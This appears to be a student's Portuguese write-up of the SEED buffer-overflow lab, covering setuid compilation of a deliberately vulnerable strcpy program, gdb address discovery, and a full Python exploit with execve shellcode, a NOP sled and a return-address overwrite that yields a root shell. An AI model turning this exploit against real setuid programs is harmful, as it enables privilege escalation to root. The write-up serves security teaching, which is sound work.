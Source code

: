 # Semana #5 - Buffer-Overflow Attack Lab - Set-UID Version

## Task 1 - Getting familiar with shellcode

Esta task familiariza-nos com shellcode. Aprendemos que a melhor maneira para correr shellcode é através de código assembly. Aprendemos, também, um pouco sobre o código assembly utilizado para chamar a função **execve()** e executar `/bin//sh`.
Depois de compilar o ficheiro `call_shellcode.c`, são criados 2 ficheiros:

- `a32.out`, que contém o código em 32 bits
- `a64.out`, que contém o código em 64 bits

Embora o código assembly seja diferente dependendo se é 32 bits ou 64 bits, quando corremos notamos que ambos, de facto, abrem a shell bash e, depois de escrever `whoami`, ambas as bashes respondem com **seed**.


## Task 2 - Understanding the Vulnerable Program

Primeiramente, começamos por compilar o ficheiro `stack.c` e torná-lo num Set-UID program através dos seguintes comandos:

```
sudo chown root stack
```


```
sudo chmod 4755 stack
```

O conteúdo do `stack.c` é o seguinte:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str){
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv){
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```


Alternadamente, podemos simplesmente fazer **make**, pois o `Makefile` já tem as instruções para fazer isto.

Depois de fazer **make**, são criados 4 pares de ficheiros executáveis:

- `stack-L1` e `stack-L1.dbg`
- `stack-L2` e `stack-L2.dbg`
- `stack-L3` e `stack-L3.dbg`
- `stack-L4` e `stack-L4.dbg`

Agora, falta mudar o conteúdo do `badfile`` para conseguirmos dar exploit à vulnerabilidade existente.

## Task 3 - Launching Attack on 32-bit Program (Level 1)

Primeiro, temos que criar o ficheiro `badfile``:

```
touch badfile
```

Agora, vamos correr o código em modo debug para conseguirmos descobrir a distância entre a posição inicial do **buffer** e o sítio onde o **return address** está armazenado. Para isso, vamos escrever a seguinte instrução: 

```
gdb stack-L1-dbg
```

Depois de meter um breakpoint na função **bof()**, executar o programa e dar alguns passos para a frente, podemos saber o endereço do **$ebp** da seguinte forma:

```
p $ebp
```

Que retornou `(void *) 0xffffcb18`.<br>
Podemos fazer o mesmo para descobrir o endereço do buffer:

```
p &buffer
```

Que retornou `0xffffcaac`.<br>

Por fim, alteramos o ficheiro `exploit.py` para ter os valores dos endereços obtidos. O ficheiro final ficou assim:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's (do nothing operation)
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 190
offset = 0xffffcb18 - 0xffffcaac + 4

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Foram necessárias fazer mudanças ao ficheiro original.<br>
Primeiro, mudamos o shellcode para código de 32 bits, que tinha sido dado no ficheiro `call_shellcode.c`.
Depois mudamos o start, que representa o início do shellcode na stack e calculamo-lo subtraindo o tamanho da shellcode ao tamanho lido do badfile, ou seja:

```py
start = 517 - len(shellcode)
```

Finalmente, falta calcular o novo return address, que nos vai levar ao shellcode, e o offset, que representa a distância entre o return address e o início do buffer. Isto é para escrevermos no `badfile`, onde anteriormente estava o return address, um return address novo, que nos levará ao shellcode.
Para calcular o return address basta pegar no valor do **$ebp** e somar um número para que, depois de sair da função, o endereço esteja num local preenchido só por NOP's, que faz com que prossiga até, finalmente, chegar ao shellcode.<br>
Para calcular o offset, temos que subtrair ao **$ebp** o valor do endereço do **buffer** e somar 4, para incluir o antigo return address:

```py
ret    = 0xffffcb18 + 190
offset = 0xffffcb18 - 0xffffcaac + 4
```

Finalmente, corremos o `exploit.py`, que vai criar o `badfile`, seguido do `stack-L1` e obtemos a seguinte mensagem:

```
# <---- Bingo! You’ve got a root shell!
```

## Task 4 - Launching Attack without Knowing Buffer Size (Level 2)
